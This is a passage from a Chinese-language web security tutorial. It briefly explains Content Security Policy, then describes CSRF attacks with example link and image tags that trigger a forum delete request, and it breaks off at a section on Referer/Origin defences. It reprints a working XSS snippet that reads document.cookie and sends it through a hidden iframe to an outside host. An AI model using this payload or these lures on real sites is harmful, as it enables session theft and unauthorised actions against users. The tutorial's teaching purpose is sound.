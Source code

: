 #### 内容安全策略(CSP)

> 内容安全策略 (CSP, Content Security Policy) 是一个附加的安全层，用于帮助检测和缓解某些类型的攻击，包括跨站脚本 (XSS) 和数据注入等攻击。 这些攻击可用于实现从数据窃取到网站破坏或作为恶意软件分发版本等用途。

这里不展开讲CSP的具体概念,详情可以自行翻阅[MDN文旦](https://developer.mozilla.org/zh-CN/docs/Web/Security/CSP)和[Can i use csp](https://caniuse.com/#search=csp).

简单来说即是提前设置好关于脚本或内容的信任关系即可,这样当遇到来源不属于信任列表中的的脚本或图片时,也不会去执行脚本或请求图片.而且CSP设计之初也有考虑到内联脚本的XSS攻击,也有相关的解决方案,详细用法和语法可以查看[MDN文档](https://developer.mozilla.org/zh-CN/docs/Web/HTTP/Headers/Content-Security-Policy/script-src)

## CSRF

CSRF,全称Cross-site request forgery,跨站请求伪造.顾名思义就是从非本站的其他网站中伪造请求到本站.而且还是本站真实用户自己在不知情的情况下触发的请求.

### CSRF具体形式

简单表现为,用户伪造页面,而在页面中发起伪造请求攻击目标.

假设有一个论坛网站,当用户要删除一篇文章时请求url为`http://mydomain.com/post/delete/id`,我们就可以简单伪造一个页面,而网站中有一个a标签跳转`<a href="http://mydomain.com/post/delete/1">赢取现金大奖</a>`,在用户点击了该a标签进行跳转时,实际就完成了一次对攻击目标的请求(前提是用户在目标网站上的登录状态还没有过时),就在用户不知情的情况下删除了文章.或者在伪造页面中使用img标签`<img src="http://mydomain.com/post/delete/1">`,这样在用户打开伪造网站时攻击请求就已经发出了而无需其他操作.

> ps: 用img标签请求非本站资源,是跨域的一种形式

虽然上面的例子比较局限,前提是网站API使用了get方法来进行信息的进行更新或删除.对的,在防范CSRF的第一个建议就是遵守关于http method的规范,如`get`和`head`方法应该只用来获取资源,使用`post`和`put`和`delete`来进行数据的增改删.但是API使用post请求也时无法阻止CSRF的.

还记得XSS章节中使用的盗取cookie时用到的提交的方法吗?

```js
(function(window, document) {
    // 构造泄露信息用的 URL
    var cookies = document.cookie;
    var xssURIBase = "http://192.168.123.123/myxss/";
    var xssURI = xssURIBase + window.encodeURI(cookies);
    // 建立隐藏 iframe 用于通讯
    var hideFrame = document.createElement("iframe");
    hideFrame.height = 0;
    hideFrame.width = 0;
    hideFrame.style.display = "none";
    hideFrame.src = xssURI;
    // 开工
    document.body.appendChild(hideFrame);
})(window, document);
```

完全可以在伪造页面中进行类似的操作,例如在iframe中构造表单,然后诱使用户触发提交表单.

> pps: iframe也是跨域请求的一种模式.

### 如何防范CSRF

除了上面提到的首先要规范的定义接口之后(并不能防范CSRF),大多数CSRF的预防技术都是通过在验证请求的信息来区分是否来自可信任域的请求.

#### 请求头中的Referer头或Origin

